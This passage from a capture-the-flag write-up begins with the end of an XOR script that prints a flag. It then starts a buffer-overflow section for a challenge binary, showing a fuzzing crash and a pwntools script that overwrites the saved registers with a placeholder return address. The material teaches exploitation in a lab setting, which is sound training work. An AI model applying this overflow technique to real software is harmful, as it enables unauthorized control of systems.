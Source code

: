 ```python
    0xF0,
    0x08,
    0x1C,
    0x0B,
    0x78,
    0x41,
    0x1B,
]

for i in range(0, len(magic)):
    print(chr(magic[i] ^ magic2[i]), end="")
```

This script returns the flag: `SIG{1337_h4xx0r}`

## PWN

### Tiny Buffer

We have to find a buffer overflow in the binary. We can do so by just entering a random amount of characters when executing the binary until we crash: 
```
$ ./pwn1
I sure hope noone calls shell()...
Give me some input
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Alright you gave me AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@
fish: Job 1, './pwn1' terminated by signal SIGSEGV (Address boundary error)
```

Nice! We can now try to the the minimum number of characters by repeating the same process. You'll notice that we can pass 32 characters without breaking the program. So what happens if we pass 40 or 48 characters? Let's find out.

Luckily, we can attach gdb via our python script:
```python
from pwn import *

context(arch = 'amd64', os = 'linux', terminal=['tmux', 'split-window', '-h'])

io = process("./pwn1")
gdb.attach(io, gdbscript='continue')

print(io.recvuntil(b">", drop=False))

payload = 32 * b"A"
payload += p64(0x0)             # rbp
payload += p64(0xdeadbeef)      # rip

io.sendline(payload)
io.interactive()
```
